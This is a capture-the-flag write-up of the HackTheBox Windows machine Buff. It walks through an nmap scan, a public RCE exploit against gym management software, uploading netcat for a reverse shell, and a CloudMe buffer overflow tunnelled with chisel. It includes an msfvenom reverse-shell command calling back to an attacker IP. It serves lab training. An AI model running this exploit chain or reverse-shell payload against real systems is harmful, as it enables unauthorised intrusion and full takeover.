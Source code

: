 ```yaml
---
description: >-
  Dec1pher's writeup on the easy-difficulty Windows machine Buff from
  https://hackthebox.eu
---
```


# HTB-Buff

* OS: Windows
* IP: 10.10.10.198

![](../../.gitbook/assets/buff.PNG)

## Overview

Buff is an easy windows machine that runs a gym management web interface that's outdated and has a known exploit to get RCE on the box. From here we are using winPEAS to locate `CloudMe.exe` which is vulnerable to buffer overflow. Using some port forwarding and the found python exploit we get administration rights on the box.

## Useful Tools

1. chisel  [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

## Enumeration

### Nmap

As always the first thing is enumerating the box with nmap. The most efficient flags that I found that work relatively fast and at the same time don't skip important information are `-Pn` to skip the ping test, `-sS` for TCP SYN scan, `-sC` for testing default scripts, `-sV` for version enumeration of the host, `-T4` to be fast and `-p-` to do an all ports scan. Also to not waste time I like to use the `--max-retries 0` to stop nmap from testing the same port multiple times.

```bash
dec1pher@kali:~$ sudo nmap -Pn -sS -sC -sV -T4 -p- 10.10.10.198 --max-retries 0
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org/ ) at 2020-11-12 17:07 EET
Nmap scan report for 10.10.10.198
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE VERSION
8080/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6 Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 close
|_http-title: mrb3n's Bro Hut
Device type: general purpose Running (JUST GUESSING): Microsoft Windows XP 7 (87%)
OS CPE: cpe:/o:microsoft:windows xp :: sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (87%), Microsoft Windows XP SP2 (86%), Microsof 85%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/sub
```

There is only one port open according to the initial scan and it's an Apache web server on port 8080. Nmap didn't gave us an OS version but it could detect that the host runs windows.

### Site discovery \(HTTP 8080\)

The website is a gym management app and going though the pages we can see in the `contact.php` page the version and the name of the software that's used.

![](../../.gitbook/assets/buff-site.png)

That version of the app has a know vulnerability that gives RCE to the attacker and we can find the exploit python script in ExploitDB [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506).

## Exploiting Gym management to get RCE

By running the exploit providing the box ip we get RCE on the box. The shell that the script opened is not responsive \(we can't change directories\) but we can run commands on the box. So we spin up a python server on our box and we upload `nc.exe` on the machine using `powershe Invoke-WebRequest` since we have access to powershell. Since `nc.exe` gets uploaded we can call it from the webshell we got from the python script and get a responsive reverse shell on the box \(since the nc.exe doesn't get deleted or blocked we can assume that the box doesn't have an antivirus or some kind of malware detection\).

1. Uploading `nc.exe` 
![](../../.gitbook/assets/buff-nc.png)

2. Executing `nc` and getting a responsive reverse shell
![](../../.gitbook/assets/buff-rce.png)

* We can get user.txt under `C:\Users\Shaun\Desktop\user.txt`

## Privilege escalation

After some manual enumeration on the use we can see an app that stick out `CloudMe.exe`. After searching for that app we can find that the version of that app is vulnerable to buffer overflow and we can find a python script in exploitdb that exploits the vulnerability.

> buffer overflow script found here =&gt; [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389)

### Creating the payload and setting up Chisel

Since python is not installed in the victim box we can use port forwarding to execute the script locally and send the payload to the victim using chisel. First we have to create a payload that opens a reverse TCP connection back to us. To do that we can use msfvenom and then use that created payload in the python script that we found.

1. To create the payload
   `sudo msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.103 LPORT=1337 -f py -v payload`
2. Locally open chisel in server mode
   
   ![](../../.gitbook/assets/buff-client-chisel.png)
3.  Remotely execute chisel in client mode

   ![](../../.gitbook/assets/buff-serverchisel.png)

So we have created the tunnel to forward the payload to the app so now we can execute the python script that sends the payload open a netcat listener and get administration access on the box.

![](../../.gitbook/assets/buff-root.png)

* At this point we have administration access on the box and we can get `root.txt` under `c:\Users\Administrator\Desktop\root.txt`